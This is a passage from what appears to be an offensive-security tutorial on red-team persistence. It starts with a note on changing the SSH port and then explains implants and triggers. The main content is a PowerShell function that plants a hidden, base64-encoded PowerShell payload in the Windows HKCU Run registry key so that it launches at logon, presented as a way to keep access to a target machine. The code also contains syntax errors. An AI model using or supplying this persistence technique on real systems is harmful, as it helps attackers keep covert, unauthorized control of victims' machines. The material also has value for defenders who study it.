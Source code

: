 By editing the ssh config file, and setting the port to your desired port.
### Config
```
# old config
Port 22

# new config
Port 1337
```
Change 1337 to any port that you desire then restart the ssh service.

# Persistence
A lot of time and effort is spent just for gaining initial access to a machine, thus you must maintain access to your target. This is why persistence is the key component of how to do it.

### Why is it important to have a persistence?

Once you have established your persistence in your target system, you will have continual access to the system. This is vital since we do not know when we will be going to be kicked in the machine, power loss, network problems, and machine reboots.

In doing persistence, there are two components that you should always remember. 

1. Implant
2. Trigger

### Persistence Implant
Persistence implant is the payload or file that is going to be implanted into the target machine. It can be a binary, an executable file (EXE), a Dynamic Link Library (DLL), or some reverse shell commands embedded in some services.

More advanced techniques involve malwares, trojans, and rootkits.

## Windows

### Registry Persistence
```posh
function Registry-Persistence {
  [CmdletBinding()]
  Param{}
  try {
    $query = '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -c "$a=(Get-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run).DisableHelpStickerData;powershell -w hidden -enc $a"' 
    if ( -not (Test-RegEntry $RegKey $RegName) -and not (Test-RegEntry $RegKey $RegNameData))
    {
      Write-Host "Making the Persistence"
      New-ItemProperty $RegKey -Name $RegName -Value $query | Out-Null
      New-ItemProperty $RegKey -Name $RegNameData -Value $Payload | Out-Null
      Write-Host "Persistence Done!"
    }

    else { Write-Host "Persistence already exists!" }
  }
  catch { Write-Host "Try again."}
}
```
